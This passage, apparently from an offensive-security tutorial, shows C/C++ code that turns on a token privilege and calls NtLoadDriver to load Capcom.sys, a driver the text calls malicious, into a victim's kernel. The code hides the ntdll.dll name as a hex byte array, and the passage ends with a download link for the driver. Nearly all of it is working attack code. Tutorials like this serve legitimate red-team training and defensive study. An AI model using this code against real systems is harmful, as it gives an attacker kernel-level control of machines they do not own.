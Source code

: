 ```c
        &tp,
        sizeof(TOKEN_PRIVILEGES),
        (PTOKEN_PRIVILEGES)NULL,
        (PDWORD)NULL))
    {
        printf("AdjustTokenPrivileges error: %x", GetLastError());
        return FALSE;
    }

    //system("cmd");
    // below code for loading drivers is taken from https://github.com/killswitch-GUI/HotLoad-Driver/blob/master/NtLoadDriver/RDI/dll/NtLoadDriver.h
    std::cout << "[+] Set Registry Keys" << std::endl;
    NTSTATUS st1;
    UNICODE_STRING pPath;
    UNICODE_STRING pPathReg;
    PCWSTR pPathSource = L"C:\\experiments\\privileges\\Capcom.sys";
  PCWSTR pPathSourceReg = L"\\Registry\\User\\<User-SID>\\System\\CurrentControlSet\\MyService";
    const char NTDLL[] = { 0x6e, 0x74, 0x64, 0x6c, 0x6c, 0x2e, 0x64, 0x6c, 0x6c, 0x00 };
    HMODULE hObsolete = GetModuleHandleA(NTDLL);
    *(FARPROC *)&RtlInitUnicodeString = GetProcAddress(hObsolete, "RtlInitUnicodeString");
    *(FARPROC *)&NtLoadDriver = GetProcAddress(hObsolete, "NtLoadDriver");
    *(FARPROC *)&NtUnloadDriver = GetProcAddress(hObsolete, "NtUnloadDriver");

    RtlInitUnicodeString(&pPath, pPathSource);
    RtlInitUnicodeString(&pPathReg, pPathSourceReg);
    st1 = NtLoadDriver(&pPathReg);
    std::cout << "[+] value of st1: " << st1 << "\n";
    if (st1 == ERROR_SUCCESS) {
        std::cout << "[+] Driver Loaded as Kernel..\n";
        std::cout << "[+] Press [ENTER] to unload driver\n";
    }

    getchar();
    st1 = NtUnloadDriver(&pPathReg);
    if (st1 == ERROR_SUCCESS) {
        std::cout << "[+] Driver unloaded from Kernel..\n";
        std::cout << "[+] Press [ENTER] to exit\n";
        getchar();
    }

    return 0;
}
```

Once the above code is compiled and executed, we can see that our malicious `Capcom.sys` driver gets loaded onto the victim system:

![](../../.gitbook/assets/a11.png)

Download: [Capcom.sys - 10KB](https://firebasestorage.googleapis.com/v0/b/gitbook-28427.appspot.com/o/assets%2F-LFEMnER3fywgFHoroYn%2F-LTyWsUdKa48PyMRyZ4I%2F-LTyZ9IkoofuWRxlNpUG%2FCapcom.sys?alt=media\&token=e4417fb3-f2fd-42ef-9000-d410bc6ceb54)
